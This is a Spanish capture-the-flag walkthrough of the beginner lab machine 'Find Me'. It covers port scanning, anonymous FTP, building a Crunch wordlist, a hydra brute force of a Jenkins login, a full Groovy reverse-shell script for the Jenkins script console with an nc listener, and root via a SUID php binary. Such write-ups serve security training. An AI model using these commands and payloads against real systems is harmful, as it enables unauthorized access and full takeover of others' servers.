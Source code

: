 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Find Me

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.91
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.91 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (16).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP, puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,8080 -v 192.168.1.91
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (6).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

Ingresamos la IP pero a través del **puerto 8080** y nos encontramos con el panel de login de **Jenkins**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (10).png" alt=""><figcaption></figcaption></figure>

Al realizar el escaneo encontramos que tenemos acceso anónimo a través de FTP por lo que indagaremos si hay algo relevante. Vemos una nota de `ayuda.txt` por lo que nos la descargamos.

```bash
ftp 192.168.1.91
ls
get ayuda.txt
```

Al mostrar el contenido encontramos un usuario llamado **geralt**. Nos da pistas de lo que recuerda por lo que creamos un diccionario con las distintas posibilidades a tavés de **Crunch**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

```bash
crunch 5 5 -t p@@@a -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ingresamos el usuario descubierto con una contraseña cualquiera y al inspeccionar la pagina en **Network** cogemos la distinta informacion para realizar el ataque de fuerza bruta.

```bash
hydra -l geralt -P diccionario.txt 192.168.1.91 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión en **Jenkins** con las credenciales.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```bash
String host="192.168.1.50";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY. Nos cambiamos de usuario a **geralt**.

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.&#x20;

Buscamos archivos con permisos **SUID**.

```bash
find / -perm -4000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (756).png" alt=""><figcaption></figcaption></figure>

Buscamos en la página [GTFObins](https://gtfobins.github.io/gtfobins/php/).

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
